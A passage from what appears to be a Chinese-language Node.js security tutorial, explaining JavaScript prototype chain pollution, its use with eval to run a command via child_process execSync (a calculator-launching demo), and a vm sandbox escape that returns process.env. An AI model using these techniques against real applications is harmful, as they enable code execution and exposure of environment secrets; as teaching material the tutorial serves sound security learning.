 在一个应用中，如果攻击者控制并修改了一个对象的原型，那么将可以影响所有和这个对象来自同一个类、父祖类的对象。这种攻击方式就是**原型链污染**。

```js
// foo是一个简单的JavaScript对象
let foo = {bar: 1}

// foo.bar 此时为1
console.log(foo.bar)

// 修改foo的原型（即Object）
foo.__proto__.bar = 2

// 由于查找顺序的原因，foo.bar仍然是1
console.log(foo.bar)

// 此时再用Object创建一个空的zoo对象
let zoo = {}

// 查看zoo.bar，此时bar为2
console.log(zoo.bar)
```

### 2.3 原型链污染配合RCE

有原型链污染的前提之下，我们可以控制基类的成员，赋值为一串恶意代码，从而造成代码注入。

```js
let foo = {bar: 1}

console.log(foo.bar)

foo.__proto__.bar = 'require(\'child_process\').execSync(\'open /System/Applications/Calculator.app/\');'

console.log(foo.bar)

let zoo = {}

console.log(eval(zoo.bar))
```

2.4 

## 3 vm沙箱逃逸

vm是用来实现一个沙箱环境，可以安全的执行不受信任的代码而不会影响到主程序。但是可以通过构造语句来进行逃逸

逃逸例子：

```js
const vm = require("vm");
const env = vm.runInNewContext(`this.constructor.constructor('return this.process.env')()`);
console.log(env);
```
